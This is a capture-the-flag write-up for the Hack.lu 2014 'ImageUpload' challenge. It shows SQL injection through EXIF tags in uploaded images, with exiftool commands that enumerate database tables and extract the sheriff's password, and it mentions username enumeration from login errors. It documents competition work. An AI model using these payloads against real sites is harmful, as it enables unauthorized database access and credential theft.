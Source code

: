 ```yaml
---
layout: post
title: "Hack.lu 2014 - ImageUpload"
date: 2014-10-24 09:25
comments: true
author: stacks0n
categories: [web, sqli]
---
```


hallenge
In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. Therefore, he needs your help.
Upload pictures of criminals to this site and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!

Pictures will be deleted on regular basis!

## Analysis
The site is two separate pages. One is a simple submit form in which you upload an image to the site. It explicitly asks for .jpg or .jpeg images. The second page is a simple login form that has a valid username of `sheriff`, that can be detected based on differentiating responses of failed logins (invalid user vs invalid password).

The form submissions explicitly asks for .jpg or .jpeg images, however if you rename the extension of another file type it appears to pass but
has issues printing. After uploading the image, it displays three exif tags: `author`, `manufacturer`, and `model`. These tags, along with heigh tand width information are displayed in a table beneath the image.

First attempts were to embed javascript into exif tags using exiftool, assuming a sheriff user would login to view the criminals. The values appear to be HTML encoded, however providing a single quote led to a database error. Looks like SQL injection.

Here is the list of modifications I made to my jpeg to get info from the database:

* `exiftool "-artist=stacks0n" hack.jpg`
 * ensure existence of Author field
* `exiftool "-artist=Artist','Manufacturer','Model') -- " hack.jpg`
 * test injection
* `exiftool -artist=Artist','Manufacturer',concat('a','b')) -- " hack.jpg`
 * test for MySQL
* `exiftool "-artist=Artist','Manufacturer',(SELECT count(table_name) FROM information_schema.tables )) -- " hack.jpg`
 * get number of tables (43)
* `exiftool "-artist=Artist','Manufacturer',(SELECT table_name FROM information_schema.tables LIMIT 42,1 )) -- " hack.jpg`
 * get table name (users)
* `exiftool "-artist=Artist','Manufacturer',(SELECT column_name FROM information_schema.columns where table_name = 'users' LIMIT 0,1  )) -- " hack.jpg`
 * get column names (id, name, password)
* `exiftool "-artist=Artist',(SELECT name from users where id = 1 ),(SELECT password from users where id = 1 )) -- " hack.jpg`
 * get login info (sheriff, AO7eikkOCucCFJOyyaaQ)

Lastly, login as sheriff for flag.

## Solution
You are sucessfully logged in.

Flag: flag{1\_5h07\_7h3\_5h3r1ff}
